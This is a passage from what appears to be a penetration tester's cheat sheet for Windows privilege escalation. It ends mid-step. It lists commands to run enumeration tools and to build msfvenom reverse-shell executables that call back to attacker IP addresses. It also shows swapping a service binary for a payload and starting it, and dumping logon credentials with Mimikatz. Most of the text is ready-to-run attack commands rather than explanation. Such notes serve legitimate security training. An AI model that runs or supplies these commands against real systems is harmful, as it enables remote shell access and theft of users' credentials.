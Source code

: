 Transfer windows-privesc-check2.exe over to machine

C:\Users\Admin>cd ..
C:\Users>cd Public
C:\Users\Public>cd Downloads
C:\Users\Public\Downloads>windows-privesc-check2.exe --audit -a -o report
windows-privesc-check v2.0svn198 (http://pentestmonkey.net/windows-privesc-check)...
```
### Using sharppup
```
Transfer sharpup to machine
run using .\sharp.exe audit

When a service binary appears - create payload to replace that binary with a reverse shell
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.8.0.24 LPORT=443 EXIT_FUNC=thread -f exe-service -o service.exe

overwrite the original service binary
copy .\rev.exe C:\Service_Name\Service_Name.exe

sc start Service_Name

get shell from listener
```
### Running Mimikatz
```
https://github.com/gentilkiwi/mimikatz

wget https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20180925/mimikatz_trunk.zip

COPY mimidrv.sys and mimikatz.exe and mimilib.dll to vuln machine

 // IF no interactive shell then:
mimikatz log version "sekurlsa::logonpasswords" exit
 // ELSE
mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
```





### Upgrade meterpreter shell Windows
```
1. Create a windows TCP reverse shell payload executable
// NOTE when connecting to windows initially use port 80 for reverse shell and use nc -nvlp 80

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.49 LPORT=4446 -e x86/shikata_ga_nai -f exe -o reverse.exe
// OR
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.2.5 LPORT=4444 -f exe > reverse.exe

3. Host the payload on a server from our kali machine (in order to download it from the vul-
nerable machine)
